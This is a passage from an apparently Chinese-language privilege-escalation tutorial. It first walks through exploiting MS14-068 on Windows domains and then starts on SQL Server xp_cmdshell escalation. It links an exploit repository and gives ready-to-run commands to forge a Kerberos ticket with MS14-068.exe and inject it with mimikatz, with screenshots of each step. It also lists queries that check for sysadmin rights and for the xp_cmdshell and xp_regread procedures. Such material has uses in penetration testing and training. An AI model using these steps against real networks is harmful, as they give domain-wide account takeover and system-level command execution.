 • 域内任意用户密码

漏洞危害：windows2003/2008/2012/7/8

exp 下载地址：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068

漏洞验证：

先用 whoami/user 查看当前用户 sid

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibLgVbzon79MYDAicGiaOZ34OaUNtMlbUMAticjzibsHZMicc3nmeg0TNN1gQ/640?wx_fmt=png)

Kerberos::purge 或 klistpurge 先清空当前机器中的所有凭证：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibPma02VgVmfTyY097gnWNAjDw6UaaFxr7dbWqAwG7SLUS1Uwcs8mIYQ/640?wx_fmt=png)

利用 MS14-068 生成相应凭证：

```
MS14-068.exe -u c@test.com -sS-1-5-21-2273191065-1635484360-3888421177-1105 -d 192.168.202.148 -pc@zxcvbnm123
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibTCNeoQJmeOmbMcOqevdtTyGMWzlOzMiaPWQjYIyyFhBmH1DdiakfpGSw/640?wx_fmt=png)

使用 mimikatz 将票据注入内存：

```
Kerberos::ptc "TGT_c@test.com.ccache"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibNLxI5bMGWNJW2gANZKbJ0uzCXzKt3XiaKVoeOCaManwY7OJsNpRPgjQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib13SbBeqicJrzibJ54CbnkZc7iavSEYF8n7yGr9vr50QGO9vdo0jHCAryw/640?wx_fmt=png)

后续利用：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibMntEicQ95MgibYbVJCTf9hARbBXgdVXtslqAFPxnuvWvWdFPDnl27WAg/640?wx_fmt=png)

**3** **三、数据库提权**

### **3.1 Sql Server**

##### Xp_cmdshell 提权

Xp_cmdshell 扩展时可以执行系统命令的，而 sqlserver 默认就是 system 权限，这是我们能利用其提权的原因。默认 sa 支持外连。

判断权限是不是 sa  
selectis_srvrolemember('sysadmin')

判断 xp_cmdshell 扩展存储是否存在  

```
select count(*) from master.dbo.sysobjects where xtype = 'x' AND name='xp_cmdshell'
```

判断 xp_regread 扩展存储过程是否存在

```
select count(*) from master.dbo.sysobjects where name='xp_regread'
```
